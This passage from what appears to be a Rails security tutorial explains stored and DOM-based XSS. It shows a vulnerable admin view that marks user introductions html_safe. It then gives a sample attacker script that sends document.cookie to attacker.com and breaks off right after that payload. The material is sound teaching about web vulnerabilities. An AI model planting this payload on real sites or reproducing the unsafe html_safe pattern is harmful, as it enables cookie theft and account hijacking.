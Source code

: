 A Stored XSS vulnerability arises when data submitted by one user (the attacker) is stored in the application and is then displayed to other users without being sanitized properly.

**DOM-based XSS**

DOM-based XSS vulnerabilities arise when client-side Javascript extracts data contained in a request&#8217;s URL or the response&#8217;s HTML (accessible via the DOM) to dynamically update the page&#8217;s contents. Exploiting a DOM-based XSS vulnerability involves crafting a request URL containing embedded Javascript such that the client-side Javascript injects the malicious Javascript into the DOM and causes its execution.

[Read this OWASP page for more info on the three types of XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting)

For the purposes of this article, we will focus on Stored XSS.

**[Click here to download a handy cheatsheet on Rails XSS & Security!](https://ducktypelabs.com/wp-content/uploads/2016/10/Rails_XSS_Security_Cheatsheet.pdf)**

## How to attack a Stored XSS Vulnerability?

Let&#8217;s consider an example to illustrate how such a vulnerability can arise and how an attacker can take advantage of it.

### A Vulnerable Rails app

Consider a typical Rails app, with users and admins. A user record has three fields &#8211; `name`, `email` and `introduction`. Each user has a profile page where this information is listed. Admins in the system, in addition to being able to access these profile pages, also have access to a `/users` page which consolidates all the users&#8217; information. The view code for this page starts out looking something like this:

    <% #This is accessible only to admins %>
    <% User.all.each do |user| %>
      <%= user.name %>
      <%= user.email %>
      <%= user.introduction %>
    <% end %>
    

Now let&#8217;s say we want to give our users the ability to customize their introductions with HTML. So instead of typing in `"I'm awesome!!"` in the introduction field, they can type in `"I'm <strong>awesome!!</strong>"`. To accomplish this in our view, we make use of the `html_safe` helper and change `user.introduction` to `user.introduction.html_safe`. Now, if a user submits text with HTML in it, our view will render the HTML.

### Enter Attacker

An attacker can take advantage of this HTML rendering and submit something like this in the introduction field:

    I am awesome!!
    <script>
      var i = new Image;
      i.src = "http://attacker.com/" + document.cookie;
    </script>
    